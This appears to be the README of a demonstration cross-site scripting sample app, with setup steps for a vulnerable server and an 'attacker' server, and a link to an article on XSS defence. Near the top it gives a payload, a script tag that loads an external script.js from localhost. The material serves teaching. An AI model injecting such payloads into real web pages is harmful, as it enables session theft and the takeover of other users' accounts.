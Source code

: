 # payload

`<script src="http://localhost:8000/script.js"></script>`

### Running the Application

To run this project, follow these steps:

1. Clone this repository (`git clone https://github.com/auth0-blog/xss-sample-app.git`)

2. Move to the root folder of the project (`xss-sample-app`) in your machine and install the dependencies by running the following command:

   ```shell
   npm install
   ```

3. To launch the web application, run the following command:

   ```shell
   node server.js
   ```

4. Point your browser to [http://localhost:3000](http://localhost:3000) to access the sample web app.

5. To launch the attacker website, run the following command:

   ```shell
   node attacker-server.js
   ```

6. Point your browser to [http://localhost:4000](http://localhost:4000/) to access the attacker website



Please, read [Defend Your Web Apps from Cross-Site Scripting (XSS)](https://auth0.com/blog/cross-site-scripting-xss/) to learn more about XSS attacks and how to prevent them.

